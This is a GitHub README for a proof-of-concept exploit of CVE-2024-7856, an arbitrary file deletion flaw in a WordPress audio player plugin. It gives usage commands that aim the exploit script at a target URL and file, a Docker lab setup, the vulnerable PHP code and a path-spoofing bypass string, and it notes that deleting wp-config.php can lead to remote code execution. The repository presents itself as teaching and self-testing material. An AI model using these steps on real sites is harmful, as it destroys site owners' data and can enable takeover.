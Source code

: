 
# CVE-2024-7856
★ CVE-2024-7856 Arbitrary File deletion PoC ★


## Description
**CVE-2024-7856** : MP3 Audio Player – Music Player, Podcast Player & Radio by Sonaar <= 5.7.0.1 – Missing Authorization to Authenticated (Subscriber+) Arbitrary File Deletion


**Researcher**: [Arkadiusz Hydzik](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/arkadiusz-hydzik)


**description**: The MP3 Audio Player
 Music Player, Podcast Player & Radio by Sonaar plugin for WordPress is vulnerable to unauthorized arbitrary file deletion due to a missing capability check on the removeTempFiles() function and insufficient path validation on the 'file' parameter in all versions up to, and including, 5.7.0.1. This makes it possible for authenticated attackers, with subscriber-level access and above, to delete arbitrary files which can make remote code execution possible when wp-config.php is deleted.

## How to use

### Git clone
```
git clone https://github.com/l8BL/CVE-2024-7856.git
cd CVE-2024-7856
```
### Install packages 
```sh
pip install -r requirements.txt
```
### Command
```sh
# Arbitrary file deletion
python3 CVE-2024-7856.py -u <URL_TO_EXPLOIT> -f <FILE_TO_DELETE>
python3 CVE-2024-7856.py -u <URL_TO_EXPLOIT> -f <FILE_TO_DELETE> -i <USER_ID_TO_LOGIN> -p <USER_PW_TO_LOGIN>
```

### Example 
```sh
python3 CVE-2024-7856.py -u http://example.com/ -f /tmp/test
python3 CVE-2024-7856.py -u http://example.com/ -f /tmp/test -i EQSTtester -p q1w2e3r4t5y!
```

### Output
**CVE-2024-7856.py**
![alt text](1.png)


### Result
![alt text](2.png)


## Vulnerable Environment
### 1. docker-compose.yml
```sh
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060
  wordpress:
    image: wordpress:6.3.2
    ports:
      - 80:80
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```

### 2. Then download vulnerable GiveWP plugin:
https://downloads.wordpress.org/plugin/mp3-music-player-by-sonaar.5.7.zip

### 3. Unzip the GiveWP plugin zip file and copy the entire file to the “/var/www/html/wp-content/plugins” directory.
```sh
docker cp mp3-music-player-by-sonaar docker-wordpress-1:/var/www/html/wp-content/plugins
```


# Analysis
## Vulnerable point1 (includes/class-sonaar-music.php)
```
public function removeTempFiles(){
		// will unlink the temporary peak file and generate another one automatically.

		check_ajax_referer('sonaar_music_admin_ajax_nonce', 'nonce');
	
		$is_temp = filter_input(INPUT_POST, 'is_temp', FILTER_VALIDATE_BOOLEAN);
		$file = filter_input(INPUT_POST, 'file', FILTER_SANITIZE_STRING);
	
		if ($is_temp && $file) {
			$upload_dir = wp_get_upload_dir();
			
			$peaks_dir = $this->get_peak_dir();
	
			$file_path_temp = str_replace($upload_dir['baseurl'] . $this->get_peak_dir(true), $peaks_dir, $file);
	
			if (strpos($file_path_temp, $peaks_dir) === 0 && file_exists($file_path_temp)) {
				wp_delete_file($file_path_temp);
			}
		}
		
		
	}
```
## Vulnerable point2 (admin/class-sonaar-music-admin.php)
```
if (strpos($hook, SR_PLAYLIST_CPT . '_page_srmp3_settings_') === 0) {
            wp_enqueue_script( 'cmb2_image_select_metafield-js', plugin_dir_url( __FILE__ ) . 'library/cmb2-image-select-field-type/image_select_metafield.js' , '', '1.0.0', true );  // Used for plugin settings page only. it does not work on group repeater fields
            wp_enqueue_script( 'sonaar-music', plugin_dir_url( __DIR__ ) . 'public/js/sonaar-music-public.js', array( 'jquery' ), $this->version, true ); // used for peak generation
            wp_localize_script('sonaar-admin', 'sonaar_music', array(
                'plugin_version_free'=> SRMP3_VERSION,
                'plugin_version_pro'=> ( defined( 'SRMP3PRO_VERSION' ) ? SRMP3PRO_VERSION : 'Not Installed' ),
                'ajax' => array(
                    'ajax_url' => admin_url( 'admin-ajax.php' ),
                    'ajax_nonce' => wp_create_nonce( 'sonaar_music_admin_ajax_nonce' ),
                    'ajax_nonce_peaks' => wp_create_nonce( 'sonaar_music_ajax_peaks_nonce' ),
                ),
            ));
            

        }
```



## Bypass technique
**'Spoof'ing a path** : /wp-admin/index.php/%0a/wp-admin/sr_playlist_page_srmp3_settings_


# Attack Scenario

## Arbitrary File deletion 
With authorized User, you can exploit the arbitrary file deletion.

# Disclaimer
This repository is not intended to be Arbitrary file deletion exploit to CVE-2024-7856. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.

# Reference
https://www.wordfence.com/blog/2024/09/critical-arbitrary-file-deletion-vulnerability-in-mp3-audio-player-wordpress-plugin-affects-over-20000-sites/
